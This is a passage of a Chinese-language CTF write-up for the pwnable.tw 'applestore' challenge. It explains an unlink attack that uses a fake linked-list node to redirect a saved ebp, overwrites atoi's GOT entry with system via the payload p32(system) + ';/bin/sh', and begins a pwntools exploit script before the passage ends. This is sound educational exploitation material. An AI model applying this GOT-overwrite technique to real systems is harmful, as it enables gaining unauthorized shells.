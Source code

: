 ```
[!] stack_addr: 0xffbf4fdc
```

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-applestore-6.png)

因为我们控制的是链表的bk，但是实际写入的地方是bk[2]，所以可得：

stack_addr - offset - 0x8 = delete_ebp_addr

offset = 0xffbf4fdc - 0xffbf4ed8 - 0x8 = 0x10c

然后我们需要让我们在handler函数中用my_read写入的地址为atoi_got，所以我们需要将delete_ebp_addr处的值更改为atoi_got + 0x22

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-applestore-7.png)

故我们控制的第27个节点结构如下

```
           +--------------------+
           |                    |
   fd ---->+      fake str      |
           |                    |
           +--------------------+
           |                    |
           |                    |
           |                    |
           +--------------------+
           |                    |
       (fd)|   atoi_got + 0x22  |
           |                    |
           +--------------------+
           |                    |
       (bk)| stack_addr - 0x10c |
           |                    |
           +--------------------+
```

fd[3]=bk ----- 修改got表上内容，可写不会报错
bk[2]=fd ----- 使handler函数的ebp变为atoi_got + 0x22

### get shell

此时我们输入的str的前四个字节会覆盖掉got表中的atoi，然后把str当作参数执行

所以我们只需要构造payload：

payload = p32(system) + ";/bin/sh"

## exp

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')

debug = 0
if debug:
	elf = ELF("./applestore")
	libc = ELF("./my_ubuntu32_libc.so")
	io = process(elf.path)
else:
	elf = ELF("./applestore")
	libc = ELF("./libc_32.so.6")
	io = remote("chall.pwnable.tw",10104)

add = '2';delete='3';cart='4';checkout='5'
def action(num,payload):
    io.sendlineafter('> ',num)
```
